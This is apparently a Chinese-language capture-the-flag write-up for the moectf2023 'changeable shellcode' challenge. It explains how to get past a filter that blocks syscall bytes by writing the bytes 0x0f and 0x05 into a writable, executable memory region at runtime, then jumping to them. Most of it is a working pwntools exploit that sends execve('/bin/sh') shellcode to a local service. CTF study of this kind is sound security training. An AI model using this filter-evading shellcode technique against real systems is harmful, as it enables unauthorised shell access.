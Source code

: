 ```yaml
---
title: moectf2023 - changeable shellcode
date: 2023/9/24 12:00:00
updated: 2024/7/30 10:28:00
tags:
    - noob
excerpt: 通过分析64位程序的shellcode，利用特定内存区域绕过检测并成功打开shell。
---
```


## 文件分析

下载`shellcode`, 保护全开  
ghidra分析为64位程序

## 解题思路

有40个字节的空间，并且没有syscall，需要实现打开shell

而存放的地方，更是~~十分甚至是九分的~~奇怪，这个值在rax寄存器中有  
gdb `vmmap`查看发现该区域可读写执行

总体思路就是在这片区域分别连续写入0x5和0xf来绕开检测，
然后跳转到写了syscall`|05|0f|`的地址，
并且除了syscall以外的指令要写到最简以免长度超限

{% notel green fa-arrow-right tips %}
1. 32位的int 0x80好像不能用，就算设置rax=0xb，也无法正常打开shell
2. 不要用ascii转换器，22字节的shellcode可以转出76字节来
{% endnotel %}

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 43877)

code = '''
mov rbx, 0x68732f6e69622f   ; '/bin/sh'
push rbx
mov rdi, rsp                ; rsp现在指向栈上sh字符串位置
xor esi, esi                ; 如果push rsp再用ni会直接运行到底，建议使用si
xor edx, edx
mov qword ptr[rax], 0xf     ; rax -> 0x114514000
nop                         ; preventing optimization
mov qword ptr[rax + 1], 0x5
push 0x3b
pop rax
jmp $ - 0x25                ; 64位的跳转偏移地址是这样的！跳转回0x114514000
'''
# 汇编后39字节，还可以压得更小的也可以开一个discussion

shc = asm(code, arch='amd64')
sh.sendline(shc)
sh.interactive()
```

Done.
